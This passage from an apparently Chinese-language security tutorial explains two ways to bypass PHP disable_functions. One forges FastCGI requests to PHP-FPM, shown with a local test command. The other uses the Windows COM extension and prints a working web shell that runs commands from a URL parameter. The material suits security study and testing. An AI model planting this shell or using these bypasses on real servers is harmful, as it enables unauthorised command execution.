 ### <a class="reference-link" name="5.%20PHP-FPM/FastCGI%20bypass%20disable_functions"></a>5. PHP-FPM/FastCGI bypass disable_functions

​ 大家都知道。Web Server 只是负责分发数据，那如果 Nginx 遇到 php 动态请求该怎么处理，这时就需要了解 PHP-FPM 和 FastCGI 了

​ FastCGI 是用于将交互式程序与 Web 服务器接口的二进制协议。FastCGI 是早期的通用网关接口（CGI）的变体。FastCGI 的主要目的是减少与Web服务器和 CGI 程序接口相关的开销，从而使服务器可以一次处理更多的网页请求。

​ PHP-FPM（ FastCGI 进程管理器）是另一种 PHP FastCGI 实现，具有一些其他功能，可用于各种规模的站点，尤其是繁忙的站点。PHP-FPM 也是用于调度管理 PHP 解析器php-cgi 的管理程序，php-cgi 作为 PHP 自带的解释器，只是个 CGI 程序，除了解析请求返回结果之外，并不能管理进程，也就无法做到修改 php.ini 配置文件后平滑重启

​ 即 FastCGI 是 CGI 协议的升级版，用于封装 webserver 发送给 php 解释器的数据，通过 PHP-FPM 程序按照 FastCGI 协议进行处理和解析数据，返回结果给 webserver

[![](https://p0.ssl.qhimg.com/t01cbf452f4c3eb2fab.png)](https://p0.ssl.qhimg.com/t01cbf452f4c3eb2fab.png)

​ PHP5.3 版本之后，PHP-FPM 是内置于 PHP 的，一般来说，尤其是在高并发的情况下，nginx + PHP-FPM 的组合要比 apache + mod_php 好很多

那么伪造请求发送给 PHP-FPM 不就可以任意代码执行

脚本：[https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

本地测试

`python fpm.py -c '&lt;?php echo `id`;exit;?&gt;' -p 9999 127.0.0.1 /var/www/html/test.php`

[![](https://p4.ssl.qhimg.com/t01a055ae91cff40809.png)](https://p4.ssl.qhimg.com/t01a055ae91cff40809.png)

### <a class="reference-link" name="6.%20Windows%20%E7%B3%BB%E7%BB%9F%E7%BB%84%E4%BB%B6%20COM"></a>6. Windows 系统组件 COM

​ COM（Component Object Model）组件对象模型，是一种跨应用和语言共享二进制代码的方法。COM 可以作为 DLL 被本机程序载入也可以通过 DCOM 被远程进程调用

`C:WindowsSystem32` 下的 wshom.ocx 能够提供 WshShell 对象和 WshNetwork 对象接口的访问，也就是提供对本地 Windows shell 和计算机所连接的网络上共享资源的访问

php.ini 中开启 `com.allow_dcom`

`com.allow_dcom = true`

因为是在 Windows，如果在拓展文件夹 php/ext/ 中存在 php_com_dotnet.dll

到 php.ini 中开启拓展

`extension=php_com_dotnet.dll`

重启服务在 phpinfo 中就能看到开启了 com_dotnet

```
&lt;?php
$command = $_GET['cmd'];
$wsh = new COM('WScript.shell') or die("Create Wscript.Shell Failed!");
$exec = $wsh-&gt;exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec-&gt;StdOut();
$stroutput = $stdout-&gt;ReadAll();
echo $stroutput;
?&gt;
```
